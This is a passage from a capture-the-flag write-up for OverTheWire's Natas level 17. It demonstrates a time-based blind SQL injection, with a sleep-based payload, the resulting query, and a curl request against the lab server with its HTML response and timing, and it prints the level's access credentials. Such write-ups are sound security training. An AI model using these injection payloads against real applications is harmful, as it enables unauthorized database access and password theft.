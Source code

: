 ```
</div>
</body>
</html>

real    0m0.948s
user    0m0.006s
sys    0m0.011s
```

The command returns in under 1 second. Looks like our side-channel attack is
working! Now we can proceed with our blind SQL injection attack to query the
database with a series of passwords to derive the correct one.

#### BLIND SQL INJECTION VIA SIDE CHANNEL ATTACK

Let's modify our username name injection to something like:

```
natas18" AND password LIKE BINARY "$PW%" AND sleep(5) #
```

.. should result in a SQL query like:

```
SELECT * from users where username="natas18" AND password LIKE BINARY "$PW%"  AND sleep(5) # "
```

Let's see if `natas18` password begins with `a` by supplying "a%" as the
pattern to `LIKE BINARY`..

```
$ time curl --silent "http://natas17.natas.labs.overthewire.org/?username=natas18%22%20AND%20password%20LIKE%20BINARY%20%22a%25%22%20AND%20sleep%285%29%20%23%20&debug" -H 'Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw=='
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas17", "pass": "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw" };</script></head>
<body>
<h1>natas17</h1>
<div id="content">
Executing query: SELECT * from users where username="natas18" AND password LIKE BINARY "a%" AND sleep(5) # "<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

real    0m0.811s
user    0m0.004s
sys    0m0.006s
```
